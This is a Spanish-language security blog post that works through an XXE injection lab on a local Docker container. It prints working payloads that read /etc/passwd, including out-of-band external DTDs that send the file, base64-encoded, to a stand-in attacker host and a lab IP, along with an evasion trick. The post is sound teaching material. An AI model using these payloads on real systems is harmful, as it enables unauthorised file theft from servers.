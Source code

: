 ```yaml
---
title: Laboratorio práctico de XXE (XML External Entity Injection)
date: 2025-05-30 19:20:00 -0300
categories: [Web Security, Vulnerabilidades, XML]
tags: [xxe, xml, inyeccion, seguridad-web, fundamentos, lab, exploits]
description: >
 Adentrándonos en el fascinante mundo de las Inyecciones de Entidades Externas XML (XXE) a través de un laboratorio práctico. 
image:
  path: /assets/imgs/XEE_1.jpg # Sugerencia de imagen: Una que represente XML, datos, o una inyección.
  alt: Explotando la vulnerabilidad XXE
toc: true # Activa la tabla de contenidos para este post
comments: false # Habilita comentarios para este post
---
```


# Qué es XML External Entity Injection?

XXE (XML External Entity) es una vulnerabilidad que permite a un atacante interferir con el procesamiento de archivos XML. Ocurre cuando una aplicación XML permite la definición y resolución de entidades externas. Esto puede ser explotado para acceder a archivos internos, realizar escaneos de red, denegación de servicio o exfiltración de datos. Se mitiga deshabilitando la resolución de entidades externas y validando la entrada XML.

Las aplicaciones que procesan datos XML pueden volverse un blanco crítico si no manejan correctamente las entidades externas. En esta entrada exploraremos la vulnerabilidad XXE, su impacto, y cómo puede ser explotada en un entorno controlado.

## Que es XML?
***XML (eXtensible Markup Language)*** es un lenguaje de marcado usado para almacenar y transportar datos. Su estructura basada en etiquetas permite representar datos jerárquicos de forma legible tanto por humanos como por máquinas.

```xml
<usuario>
  <nombre>Diego</nombre>
  <email>Diego@maradona.com</email>
</usuario>
```
## Entidades en XML
Las entidades son mecanismos para definir valores reutilizables o dinámicos dentro del documento XML. El parser las reemplaza automáticamente al procesar el XML.

### Entidades predefinidas
Son entidades estándar para caracteres especiales

```xml

&lt; → < 

&gt; → > 

&amp; → & 

&apos; → ' 

&quot; → " 
```
Ejemplo:

```xml 
<mensaje>5 &lt; 10</mensaje>
```
### Entidades personalizadas (custom/generales internas)
Definidas por el usuario dentro del DTD. Se reemplazan por el valor asignado.

```xml 
<!DOCTYPE data [
  <!ENTITY saludo "Hola Mundo">
]>
<mensaje>&saludo;</mensaje>

```

### Entidades externas
```xml 

<!DOCTYPE data [
  <!ENTITY archivo SYSTEM "file:///etc/passwd">
]>
<contenido>&archivo;</contenido>

```
Sabiendo esto vamos a levantar el laboratorio.

## Levantando el laboratorio.

El laboratorio que vamos a estar utilizando es [Este](https://github.com/jbarone/xxelab)

```bash
$ git clone https://github.com/jbarone/xxelab.git
$ cd xxelab
$ docker build -t xxelab .
```
Una vez buildeada la imagen la ejecutamos con:

```sh
$ docker run -it --rm -p 127.0.0.1:5000:80 xxelab
```

Una vez levantado el contenedor de docker deberiamos ver como esto

![](../assets/imgs/XEE_2.png)


## Interceptando peticion Web con Burpsuite

Vamos a enviar datos de ejemplos para ver como el servidor esta manejando las peticiones desde su lado con Burpsuite.

![](../assets/imgs/XEE_3.png)

## XXE Reflected
Una de las formas más claras de explotar una vulnerabilidad XXE es a través de la lectura directa de archivos del sistema de la víctima, aprovechando la respuesta HTTP de la aplicación. Esta técnica se conoce como XXE Reflected.

El atacante modifica una carga XML válida para incluir una entidad externa que hace referencia a un archivo local en el sistema de la víctima. Al procesar el XML, el parser reemplaza la entidad por el contenido del archivo. Si ese contenido se refleja en la respuesta de la aplicación, el atacante puede verlo directamente en su navegador o en una herramienta como Burp Suite.

![](../assets/imgs/XEE_4.png)

Se forzó al parser XML a leer el archivo ***/etc/passwd*** en la máquina donde corre la aplicación y a insertar su contenido en el XML de respuesta. Esto demuestra una lectura remota de archivos, sin necesidad de acceso directo al sistema de archivos ni ejecución de comandos.

No siempre es posible inyectar entidades, pero podemos encarar el problema de otra forma.

## External DTD (XXE OOB)

Cuando una aplicación no refleja directamente el contenido de una entidad externa en la respuesta, aún puede ser vulnerable a XXE. En estos casos, se utiliza un ataque Out-of-Band (OOB), en el que los datos extraídos se envían a un servidor externo controlado por el atacante. Este vector se apoya en una DTD externa para definir la lógica de extracción y exfiltración.

### Estructura del ataque

Carga XML inicial enviada al servidor vulnerable:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE datos SYSTEM "http://atacante.com/payload.dtd">
<datos></datos>
``` 

Contenido de payload.dtd (en el servidor del atacante):

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://atacante.com/?data=%file;'>">
%eval;
```

Carga XML reinterpretada por el parser:

```xml
<datos>&exfil;</datos>
```

Este vector es común en aplicaciones que no reflejan directamente la respuesta pero usan parsers XML inseguros. También es útil en entornos donde el canal de respuesta está controlado o filtrado (firewalls, WAFs, APIs silenciosas).


## Ejemplo practico con el laboratorio

En este ejemplo vamos a ver como podriamos enviar la informacíon del archivo ***/etc/passwd*** cifrado en base64 por una peticíon por GET a un servidor Web.

payload:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.101.59/?file=%file;'>">
%eval;
%exfil;
```

> El uso de %25 es una técnica de evasión, no una necesidad del estándar XML. Se aplica para superar validaciones, evitar bloqueos y asegurar que la estructura del payload llegue intacta al parser. Es parte del arsenal del atacante para aumentar la fiabilidad del ataque en entornos filtrados o intermediados.
{: .prompt-info }

![](../assets/imgs/XEE_5.png)


Una vez que se consuma el recurso de nuestro servidor local podemos ver el contenido del archivo en base64 en el cuerpo de la peticíon

![](../assets/imgs/XEE_6.png)

ahora podemos decrifrar el contenido usando:

```sh
echo -n "contenido en base 64" | base64 -d; echo 
```

![](../assets/imgs/XEE_7.png)





